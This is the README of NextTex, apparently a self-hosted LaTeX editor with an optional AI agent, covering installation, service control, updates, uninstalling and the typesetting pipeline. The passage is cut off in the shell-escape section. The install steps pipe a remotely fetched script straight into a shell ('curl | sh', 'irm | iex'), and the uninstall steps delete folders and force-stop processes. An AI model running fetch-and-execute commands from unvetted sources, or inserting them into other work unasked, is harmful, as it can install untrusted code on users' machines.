








# NextTex

A LaTeX editor you run yourself, with an **optional** AI agent beside the
document. The agent can write, manage project files, references and much
more. **Caution:** use AI writing for publications and academic work at your
own risk.

If you have used a Jupyter notebook, you already know how NextTex works. You
start it on your own machine, it opens in a browser tab, and your files stay
where they are on disk. Nothing is uploaded anywhere.

Source on the left, the real typeset PDF in the middle, and, if you want one,
an agent on the right that can read and edit the project you are writing. It
is one Python process and a folder of files that stay ordinary LaTeX the whole
time, so the project still compiles from a terminal, or on Overleaf, after you
close the tab. No database, no Docker, no nginx.

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/screenshot-dark.png">
  
</picture>

**Contents**

- [Highlights](#highlights)
- [Getting started](#getting-started)
  - [Installing](#installing)
  - [Running it](#running-it)
  - [Keeping it up to date](#keeping-it-up-to-date)
  - [Uninstalling](#uninstalling)
  - [Your first session](#your-first-session)
- [How it works](#how-it-works)
  - [The page follows your typing](#the-page-follows-your-typing)
  - [It tells you what the error means](#it-tells-you-what-the-error-means)
  - [Every pause is a version](#every-pause-is-a-version)
  - [Four git commands, and the fifth one is a terminal](#four-git-commands-and-the-fifth-one-is-a-terminal)
  - [The page you write on](#the-page-you-write-on)
  - [Panes, and two modes](#panes-and-two-modes)
- [The agent](#the-agent)
  - [It edits the project, and asks about everything else](#it-edits-the-project-and-asks-about-everything-else)
  - [It draws a figure from your data](#it-draws-a-figure-from-your-data)
  - [You can show it something](#you-can-show-it-something)
  - [A review in two voices, and a prompt is a file](#a-review-in-two-voices-and-a-prompt-is-a-file)
  - [It cannot invent a citation](#it-cannot-invent-a-citation)
  - [Point it at a folder of papers](#point-it-at-a-folder-of-papers)
- [Writing it with somebody else](#writing-it-with-somebody-else)
  - [Both of you keep a whole copy](#both-of-you-keep-a-whole-copy)
  - [You can see where they are](#you-can-see-where-they-are)
  - [A collaborator is a public key](#a-collaborator-is-a-public-key)
  - [Nobody owns it, and anyone can leave](#nobody-owns-it-and-anyone-can-leave)
  - [Losing your folder is not losing your place](#losing-your-folder-is-not-losing-your-place)
  - [Joining into a folder you already have](#joining-into-a-folder-you-already-have)
  - [Git and the agent stay yours](#git-and-the-agent-stay-yours)
- [What it is not](#what-it-is-not)
  - [On Windows, verified in more places than it used to be](#on-windows-verified-in-more-places-than-it-used-to-be)
- [Requirements](#requirements)
  - [What it costs to leave running](#what-it-costs-to-leave-running)
- [What leaves this machine](#what-leaves-this-machine)
- [A project on disk](#a-project-on-disk)
- [Keyboard](#keyboard)
  - [Anywhere](#anywhere)
  - [In the source](#in-the-source)
  - [On the page](#on-the-page)
  - [In the Files drawer](#in-the-files-drawer)
  - [In the agent column](#in-the-agent-column)
- [Documentation](#documentation)
- [Reporting a bug](#reporting-a-bug)
- [Licence](#licence)

## Highlights

**Writing and the page**

- **The page follows your typing.** An ordinary edit typesets only the section
  you are in, about a third of a second on a forty-file project.
- **Nothing is ever unsaved.** A keystroke goes into the document as it is
  made and the file follows a moment later, so there is no save to lose, no
  dirty dot, and two windows on one project cannot overwrite each other.
- **Double-click the page to reach the source**, and `⌘↵` to go the other way.
- **Errors explained in English**, with the one to start from named, and the
  same for the style warnings chktex finds. No model involved.
- **Every pause is a version**, kept until you say otherwise, with a trash that
  never empties itself.
- **Git is one drawer**: what changed, as a patch under each file, one
  press that commits and pushes, and Pull. Branching stays in the terminal.
- **Every document in the folder has its own page.** There is no main file:
  a resume and its variations, a thesis and its supplementary information,
  each build and download on their own, and the page follows whatever you
  are writing, a chapter showing the document that includes it. The
  Download drawer is one block per document with a chip for each format:
  `.pdf` always, and with pandoc installed `.docx`, `.html` and `.md`
  beside it, citations resolved; a new document appears in it as soon as
  it is saved.
- **Reading and writing modes**: double-click the tab in front of either pane
  to give it the window, and again to get your layout back; one click on it
  folds the pane away.
- **The editor is lit on its own terms.** The page you write on is either
  the theme's own or white, the same white as the typeset page, so a dark
  shell can hold a white page. The syntax colours, the gutter and the
  text's weight all follow the page rather than the frame.
- **Colour the commands, if you want them coloured.** Off by default, because
  the typeset page two panes away has to stay the loudest thing on screen.
  Turned on, sectioning, environments, mathematics, citations and the
  preamble each take a hue, which is what makes a long chapter skimmable for
  its shape rather than its words.
- **One bar, one drawer.** Files, Sections, Search, References, History, Git,
  People, Build, Before you submit, Download and Deleted are eleven
  buttons down the left edge, and one drawer shows the one you chose at
  full height, so the tree or the outline can stay open for as long as a
  chapter takes without pushing the other out. People is who is in the
  project and the invite to send; Build is the errors, the log and
  Rebuild, and a double-click on its button rebuilds.
- **Formulas, tables, figures and references render on hover.** Rest the
  pointer on a formula, a `tabular` or an `\includegraphics` in the
  source and it appears typeset, drawn, or as the picture with its size;
  on a `\ref` and the figure, table or equation it points at appears
  under what the reference says; the Files drawer does the same beside
  an image's row. The card keeps clear of the thing it is about, above
  it or below it, and stays while the pointer travels to it, so *Find
  references* and *Rename* on a `\ref` or `\cite` card are a click
  away. Which of them show is a row on the settings sheet, one chip per
  kind, with a switch above it for all of them at once.
- **Find and drag in the Files drawer**, with open files following a folder
  that moves.
- **The look is written down.** Every control comes from one kit on one
  set of tokens, and [docs/style-guide.md](docs/style-guide.md) says how,
  so whatever is added later looks like the rest.

**The agent**

- **Choose Claude, OpenAI, a local model, or no agent at all.** The last is
  a real option, not a degraded one. *What writes with you* is one sheet,
  reached from the projects screen, from the settings sheet and from the
  agent column's header, so the choice is never further than a click and
  is never only made once. A local model
  is the OpenAI choice with a base URL: Ollama, LM Studio, vLLM and most
  local servers speak the same protocol, no key is needed, and nothing
  leaves the machine.
- **It edits the project and asks about everything else**, or approves
  everything if you turn that on, with the record staying honest either way.
- **It cannot invent a citation.** Every reference comes from the publisher's
  own record, by DOI.
- **It remembers the project, not just the conversation**, so you can start a
  fresh chat without teaching it your work again.
- **Fill a bibliography from a folder of papers**, checked against each PDF so
  a wrong DOI is refused rather than added.

**Sharing and privacy**

- **Write it with somebody, without a server.** Share a project and their
  NextTex holds a whole copy of it: you see each other's typing and each
  other's cursors, and anything either of you wrote offline is merged rather
  than fought over when you reconnect.
- **Share, archive and trash from the list.** A project's row offers all
  three without opening it. Archived projects and the trash are two views
  under the list, and Restore brings one back; NextTex never deletes a
  folder.
- **Losing your folder is not losing your place.** Delete or move your copy
  and nobody else is touched; rejoin from your collaborators with no new
  invite, into an empty folder or a copy you already have.
- **Nothing leaves the machine** except what you asked for. No telemetry.

## Getting started

### Installing

```bash
curl -fsSL https://raw.githubusercontent.com/dakshitha-a/NextTex/master/scripts/install.sh | sh
```

On Windows, in PowerShell:

```powershell
irm https://raw.githubusercontent.com/dakshitha-a/NextTex/master/scripts/install.ps1 | iex
```

`iex` has no way to pass an argument, so if you want to answer something in
advance rather than being asked, build the script block instead:

```powershell
& ([scriptblock]::Create((irm https://raw.githubusercontent.com/dakshitha-a/NextTex/master/scripts/install.ps1))) -Dir 'D:\NextTex'
```

**It asks you two things, and it shows you everything before it asks either
one.**

The first is where to put itself. It offers `~/apps/NextTex`; press return to
take that, or type any empty directory you like. This one has to come first,
because until it has cloned there is nothing to look at yet. If you would
rather not be asked, `--dir=PATH` or the `NEXTTEX_DIR` variable answers in
advance, and an install running somewhere with no terminal just takes the
default. Your own projects live outside this directory and are never touched
by an install, an update or an uninstall.

Then it looks at your machine, all of it, before another word, and tells you
what it found in four groups:

- what is already here,
- what it is going to download, and how big each one is,
- **what you will have to install yourself**, with the command to do it on
  your platform,
- and what is missing but does not matter.

After that comes the plan: a numbered list of what it will do, what the whole
thing will download, roughly how long that takes, and anything it writes
outside this one directory.

That plan is the second question. Press return to accept it, type a number to
change that one item, or `q` to stop. Once it starts working, nothing
interrupts you again.

`git` is the only thing you need beforehand, and `curl` if there is no
Python on the machine at all, since that is what fetches one. Python, TeX
and the Claude CLI are all fetched for you if they are missing and you
asked for them. If you would rather read the script before you run it,
clone the repository yourself and run `scripts/install.sh` from inside it.
It does the same thing either way, except that it then installs into the
checkout you are standing in instead of asking where to go.

The first install takes a while, mostly because TeX is a large download. This
is the same bargain as the first time you set up a scientific Python stack:
one slow afternoon, and then it is just there. Every long step shows you how
long it has been running and the last line the tool itself printed, so a slow
mirror looks like a slow mirror rather than a hang. If something does fail,
you get the actual error, the path to the full log, and an installer that
stopped rather than one that carried on and told you it was ready. Run it
again afterwards and it picks up where it left off.

At the end it prints a URL with an access token in it, exactly like the link
`jupyter notebook` gives you. That is how you get in the first time. NextTex
then offers to set a password, and after that any browser signs in with the
password instead. You can skip that, and the URL stays the only way in, which
is fine on a machine only you can reach.

> [!WARNING]
> Anyone who has that URL can read and edit your projects, password or not,
> because it is also the way back in if you forget the password. Treat it like
> a password itself, and do not put NextTex on the open internet.

<details><summary>What the installer actually does</summary>

`scripts/install.sh` and `scripts/install.ps1` are short bootstraps. They do
only what has to happen before any Python is known to exist: refuse a platform
they are not for, check for `git`, ask where the checkout goes, clone it, and
find an interpreter. Any Python 3.10 or newer will do, and if the machine has
none at all they say so and fetch `uv`, which brings its own. Then they hand
over to `python -m nexttex.install`, which is the same code on Linux, macOS
and Windows.

**The survey.** It looks for `git`, and for the Python that is running it
and whether that Python can make a virtual environment at all: Debian and
Ubuntu ship one that cannot, which used to be the most common way a first
install failed. It looks for `uv`, and for a `.venv` that is already here.
It looks for a TeX installation wherever TinyTeX, MacTeX, MiKTeX or TeX Live
puts one, and says which of `latexmk`, `biber`, `synctex`, `chktex` and
`texcount` are missing from it. It looks for `pdftotext`, `pandoc`,
`claude`, `tailscale` and Node, for whether this machine can start things at login,
and for whatever configuration a previous install left. It also opens a
two-second connection to each host it may need, so being offline is
something you are told rather than something you wait three minutes to
discover.

**The plan.** A virtual environment and the Python dependencies, with `iroh`
tried separately so a platform it has no build for loses sharing rather than
the install. TinyTeX if you want one, or MiKTeX on Windows, and `tlmgr` to
add whichever of the five tools are missing. A writing agent, if any.
Nothing is installed unless you say Claude, the default is none, and the app
asks again, in a sheet over its projects list, the first time it opens. The interface built for this commit,
downloaded rather than built, with Node 20+ used only if that download
fails. Whether the server answers on localhost only or also on your tailnet.
And a `systemd --user` unit on Linux, a launchd agent on macOS, or a logon
task on Windows, written only if you asked for one.

All of it is idempotent. Run it again after installing something it said was
missing and it picks up where it left off without touching your projects.
</details>

### Running it

The installer sets NextTex to start at login, and puts a shortcut on your
desktop. The shortcut opens NextTex in your browser, and starts it first if
nothing is running, so it works whether or not you kept the start-at-login
step. It runs the app rather than storing the address, so it does not go
stale and it holds no copy of your access token. On a machine with no
desktop, which is the usual shape of a Linux box you reach from somewhere
else, the installer says so and skips it. Say no on the plan screen, or pass
`--no-shortcut`, if you would rather not have one.

To control the server by hand:

**Linux**

```bash
systemctl --user start nexttex
systemctl --user stop nexttex
systemctl --user restart nexttex
systemctl --user status nexttex
journalctl --user -u nexttex -f        # follow the log
```

`systemctl --user disable nexttex` stops it starting at login, and `enable`
puts it back.

**macOS**

```bash
launchctl load   ~/Library/LaunchAgents/com.nexttex.server.plist
launchctl unload ~/Library/LaunchAgents/com.nexttex.server.plist
tail -f ~/.local/share/nexttex/server.log
```

**Windows**, in PowerShell:

```powershell
Start-ScheduledTask -TaskName NextTex
Stop-ScheduledTask  -TaskName NextTex
```

Registering that task wants administrator, so on an ordinary account
`scripts\register-task.ps1`, which is what the installer calls for this,
falls back to a shortcut in your Startup folder and says which it used. If
it is the shortcut, there is no task to start or stop: run
`.venv\Scripts\python.exe -u server\run.py` to start it, or open the
`nexttex` shortcut itself, and end the `python` process running
`server\run.py` to stop it. `shell:startup` in the Run box opens the folder
the shortcut is in.

Not `pythonw`. It was tried, so that logging in did not leave a black
rectangle on the desktop, and what it also does is discard everything the
server prints: a server that dies on startup dies in complete silence, no
window and no log. The shortcut runs the console interpreter minimised
instead. Both the task and the shortcut start it with `--log-to-state`,
which sends everything it prints to `server.log` and `server.err.log`
beside the install log, so a server that will not start has left its last
words there whichever way it was started.

**Any platform.** To print the URL and token again, which is the way back in
if you have forgotten the password. A server started as a service prints
its address to its log and never the token, which is what this is for:

```bash
.venv/bin/python server/run.py --print-url
```

To choose a new password from the machine itself, which also signs every
browser out. Restart NextTex afterwards: a running server read its settings
when it started and is still checking against the old one.

```bash
.venv/bin/python server/run.py --set-password
```

To run it in the foreground instead, which is the quickest way to see why it
will not start:

```bash
.venv/bin/python server/run.py
```

If you installed a second copy with `--instance NAME`, every name above gains
the same suffix: the service is `nexttex-NAME`, its state lives in
`~/.local/share/nexttex-NAME`, and the interface carries a badge so you can
tell the two apart. Running `server/run.py` by hand for that copy takes
`--instance NAME` as well, which is what its shortcut and its login task
pass; without it you are talking to the first install.

### Keeping it up to date

`./scripts/update.sh` pulls, reinstalls, rebuilds and restarts, or
`scripts\update.ps1` on Windows. Your projects live outside this directory and
neither script touches them.

You can also update from the project list. NextTex checks once when that
screen opens and, if the repository is ahead, the update button at the top
right of the screen turns the pen colour with a small ring; press it for the
commit subjects and an Update button. It restarts itself afterwards and the
page comes back on its own.

It is deliberately quiet. Commits that change only documentation or tests are
reported as *"three new commits, none of which change NextTex"*, a grey line
rather than an alert, and a check that cannot reach GitHub says nothing unless
you asked for it.

NextTex has a version number. The app bar carries it beside the name, and
the update sheet says what it means: *"NextTex 1.0.0, up to date"* when
there is nothing to do, and *"NextTex 1.1.0 is available"* ahead of the
commit count when there is.
The number moves the way you would expect: the last part for fixes, the
middle for something new you can see or do, the first when an update needs
more than an update. In a terminal, `python3 -m nexttex.version` prints it
with the commit the code is on and the one the interface was built from,
and the [releases page](https://github.com/dakshitha-a/NextTex/releases)
lists what each version changed.

**Not now** puts the commit list away without losing it. The sheet then
says *"An update is waiting"* with a **Show it** beside it, and the button on
the app bar keeps its ring, so you can come back and update on an afternoon
that suits you rather than having to remember. The list stays away on its
own until you ask.

An update that has landed on disk without the server being restarted is its
own case, and the sheet says so before it says anything about GitHub:
*"Updated on disk to abc1234. Restart to run it."* The running process
reports the commit it started with, which is the only commit it can honestly
claim; the files are a separate fact and are reported beside it. Without that
pair, an install updated by hand and not restarted reported the new commit,
matched it against the remote and called itself up to date, three times over,
while serving the old code.

Both scripts write to `update.log` beside `install.log`, in
`~/.local/share/nexttex/` on every platform, Windows included. An update is the
operation most likely to leave a machine in a state its owner cannot explain,
so it leaves a record the way the install does. The file is appended to, again
the way `install.log` is, so it holds every update this install has ever run:
the last block is the one you want, and it is the one to send if you are asking
for help. The report described under *Reporting a bug* quotes that block for
you.

### Uninstalling

Four things to remove, in this order: the service, the desktop shortcut,
the install, and the state directory. Your projects are in none of them.

**Linux**

```bash
systemctl --user disable --now nexttex
rm ~/.config/systemd/user/nexttex.service
systemctl --user daemon-reload
rm -f ~/Desktop/NextTex.desktop
rm -rf ~/apps/NextTex ~/.local/share/nexttex
```

**macOS**

```bash
launchctl unload ~/Library/LaunchAgents/com.nexttex.server.plist
rm ~/Library/LaunchAgents/com.nexttex.server.plist
rm -f ~/Desktop/NextTex.command
rm -rf ~/apps/NextTex ~/.local/share/nexttex
```

**Windows**, in PowerShell:

```powershell
Stop-ScheduledTask -TaskName NextTex -ErrorAction SilentlyContinue
Unregister-ScheduledTask -TaskName NextTex -Confirm:$false -ErrorAction SilentlyContinue
Get-CimInstance Win32_Process | Where-Object { $_.ProcessId -ne $PID -and $_.CommandLine -like '*apps\NextTex\server\run.py*' } | ForEach-Object { Stop-Process -Id $_.ProcessId -Force }
Remove-Item "$([Environment]::GetFolderPath('Startup'))\NextTex.lnk" -ErrorAction SilentlyContinue
Remove-Item "$([Environment]::GetFolderPath('Desktop'))\NextTex.lnk" -ErrorAction SilentlyContinue
Remove-Item -Recurse -Force "$HOME\apps\NextTex", "$HOME\.local\share\nexttex"
```

The third line stops a server that the Startup shortcut started, which no
task knows about. Windows will not delete a program that is running, so
the folder cannot go until the server has.

`$_.ProcessId -ne $PID` in that line is not decoration. The filter reads
every process's command line and looks for the install's path in it, and
a shell that was *given this block as text* has that path in its own
command line, so without the exclusion the line kills the shell running
the uninstall and lines four, five and six never happen. Pasting the
block at a PowerShell prompt is safe, because an interactive shell's
command line is just the executable; it bites when the block is passed
with `powershell -Command`, or by any script or tool that wraps it. The
failure looks exactly like success, since the server does stop and
NextTex does disappear from the browser, while the install directory, the
state directory and both shortcuts are still there. Found on a real
machine on 23 September 2026, by a run that did exactly that.

**Your projects keep their own state, and this does not remove it.** Every
project you opened has a `.nexttex` directory inside it holding that
project's history, its trash, the agent's transcript and context, and
anything the library imported. That is the project's, not the install's,
which is why it lives with the project and survives all of the above: a
copy of the folder carries its past with it, and reinstalling NextTex
finds everything where it was. If you want a project's NextTex state gone
as well, delete the `.nexttex` directory inside that project. On a machine
with a few projects and a full trash this can be the largest thing the
uninstall leaves, and `~/apps` is left behind empty if NextTex was the
only thing in it.

If you installed somewhere else with `NEXTTEX_DIR`, that is the directory to
remove instead. If you installed a second copy with `--instance NAME`, every
name above gains the same suffix (`nexttex-NAME`, `com.nexttex.server-NAME`,
`~/.local/share/nexttex-NAME`) and the copies are independent, so removing
one leaves the others alone.

Everything NextTex fetched for itself is inside the install directory,
including the `uv` it may have downloaded and the Python environment, so
deleting the folder really does remove them. The state directory holds
`config.json`, which holds your token, your password and your list of
projects, so it goes too.

**What this does not remove**, deliberately:

- **Your projects.** They were never inside the install; the registry held
  paths. Each still has its `.nexttex/` beside it with the version history
  and the trash in it, and deleting that is a separate decision. The section
  below on [a project on disk](#a-project-on-disk) says what is in there.
- **TeX.** TinyTeX at `~/.TinyTeX`, or `~/Library/TinyTeX` on macOS, is
  about 460 MB and is a normal TeX installation that anything else on the
  machine can use. `tlmgr` did not put anything NextTex-specific in it.
- **The Claude CLI**, and whatever account it is signed in to. NextTex never
  held those credentials, so removing NextTex does not sign you out.

One thing worth knowing before you do it on a shared project: the state
directory holds this install's identity as a peer. Remove it and reinstall
and you are a *new* peer to your collaborators, with a different public key,
and somebody will have to invite you back. Your files and their history are
untouched either way. It is the collaborative link that is lost, which is
the same thing that happens when somebody removes you.

### Your first session

About twenty minutes, most of it TinyTeX downloading. Open the URL, choose
an agent or none in the sheet that greets you, and open
`examples/minimal-article` as a project from the *Other ways in* menu
beside *New project*. It typesets as it opens. Type a sentence into the
abstract and the page follows about two seconds later; double-click a
paragraph on the page to jump back to the line that set it. The full walkthrough, with a deliberate error, the version
history and a GitHub backup, is in
[docs/first-session.md](docs/first-session.md).

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/screenshot-projects-dark.png">
  
</picture>

*The projects screen. A row under the pointer shows what can be done to it
without opening it; the line under the list is where the archived ones and
the trash are.*

## How it works

### The page follows your typing

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/pipeline-dark.svg">
  
</picture>

When a document uses `\include`, an ordinary edit typesets only the section
you are in, so the page redraws about two seconds after you stop. A new
citation key or a new label pays for the full run with `biber`, and nothing
else does. When a quick pass leaves the page one pass behind, a reference
to a page that moved, say, the engine says so in its log and NextTex runs
the full pass by itself a moment later, so the page settles without you
pressing Rebuild. A half-finished equation holds the build back for four
seconds rather than reporting an error you already know about.

**The engine is the document's choice.** A paper in a non-Latin script,
or one whose venue hands out a font, needs `fontspec`, and `fontspec`
needs XeTeX or LuaTeX. Put `% !TeX program = xelatex` (or `lualatex`) on
the first line of the main file, the line every other editor honours, or
pick the engine for the whole project on the settings sheet; the line in
the file wins over the sheet, because it travels with the file. A
document that loads `fontspec` under pdflatex gets a diagnostic that
says which engine it needs and how to choose it, rather than fontspec's
own error.

**Shell escape is asked for, then allowed.** `minted` and `pythontex`
need `-shell-escape`, which lets a build run programs, and a build the
editor starts on its own a second after you stop typing must never pass
it silently. The project asks with `shell_escape = true` in
`nexttex.toml`; the status strip then says *shell escape?* and the error
